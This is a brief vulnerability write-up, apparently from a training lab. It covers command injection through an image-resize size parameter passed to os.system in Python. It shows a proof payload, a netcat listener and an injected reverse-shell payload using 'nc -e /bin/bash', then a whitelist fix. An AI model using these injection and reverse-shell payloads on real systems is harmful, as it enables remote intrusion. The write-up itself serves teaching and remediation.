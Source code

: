 # CMD
## Exploit
```50;touch AAAAAAA;```
really makes the file, so execution is possible

For a real exploit, we first need to listen to a certain port on our own system:
```nc -lvp 4444```
Then in the payload we will use netcat to connect to this listening port and initiate a shell:
```50; nc 127.0.0.1 4444 -e /bin/bash;```

## Fix
change:
```    os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')```
to:
```
    whitelist = {"50","150"}
    if sizeImg in whitelist:
        os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')
```
